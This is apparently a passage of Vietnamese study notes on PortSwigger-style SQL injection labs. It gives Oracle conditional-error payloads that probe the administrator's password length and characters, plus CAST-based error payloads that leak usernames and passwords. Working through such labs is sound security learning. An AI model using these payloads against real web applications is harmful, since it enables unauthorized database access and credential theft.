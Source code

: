 => Oracle

### Kiểm tra độ dài password

```
'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### Setup burpsuite

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

## Extracting sensitive data via verbose SQL error messages

- Lỗ hổng này sẽ tận dụng việc chương trình hiển thị lỗi truy vấn khiến ta có thể leak được thông tin
  ![Alt text](bin/image-11.png)

### Lab: Visible error-based SQL injection

- Với payload `' AND 1=CAST((SELECT 1) AS int)--` ta thấy chương trình hoạt động bình thường
- Do and sẽ cần trả về kiểu boolean nên ta cần có 1=CAST((SELECT 1) AS int)
- `' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
  ![Alt text](bin/image-12.png)
  - LIMIT 1 là để chỉ nhận một hàng thôi vì cast chỉ nhận 1 hàng
- `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
  - Lấy password
